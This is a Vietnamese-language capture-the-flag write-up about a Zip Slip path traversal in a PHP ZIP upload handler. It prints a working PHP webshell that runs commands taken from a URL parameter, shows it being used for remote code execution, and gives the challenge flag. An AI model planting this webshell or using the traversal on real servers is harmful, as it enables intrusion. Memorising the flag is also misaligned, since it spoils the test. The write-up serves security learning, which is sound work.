




### Phân tích file

Trong file `upload.php`, phần xử lý upload ZIP có logic dạng:

```php
$uploadDir = __DIR__ . '/uploads/';

$zipper->make($destination)->extractTo($uploadDir);
```

Ý tưởng của server là:

1. Người dùng upload một file ZIP.
2. Server lưu file ZIP lại.
3. Server extract nội dung ZIP vào thư mục `uploads/`.

Nếu trong file ZIP có một entry tên là:

```text
../pwn.php
```

thì khi extract vào:

```text
/var/www/html/uploads/
```

đường dẫn thực tế sẽ trở thành:

```text
/var/www/html/uploads/../pwn.php
```

Sau khi normalize path, nó tương đương với:

```text
/var/www/html/pwn.php
```

Tức là attacker có thể ghi file ra ngoài thư mục `uploads/`, cụ thể là ghi PHP webshell vào web root.

Đây là lỗi **Zip Slip / Path Traversal during archive extraction**.

### Tạo payload ZIP

Ta không upload PHP trực tiếp. Thay vào đó, ta tạo một file ZIP có chứa PHP shell.

Tạo file `pwn.php` và nén vào zip:

```php
<?php
echo "<pre>";
$cmd = $_GET["cmd"] ?? "id";
system($cmd);
echo "</pre>";
?>
```

Upload file zip đó:



Upload và truy cập webshell vừa ghi ra:

```text
/pwn.php?cmd=id
```

Kết quả:



Vậy ta đã thực thi được lệnh hệ thống trên server với quyền user `www-data`.

Tới đây, lỗ hổng đã được khai thác thành công thành **Remote Code Execution**.

### Tìm vị trí flag

Dùng lệnh `find` để tìm file có tên chứa `flag`:

```text
cmd = find / -name "*flag*" 2>/dev/null
```

Kết quả 



Đọc file `/var/www/html/flag.txt`:



### Flag

```text
tjctf{i_l0v3_fr33_st0r4g3}
```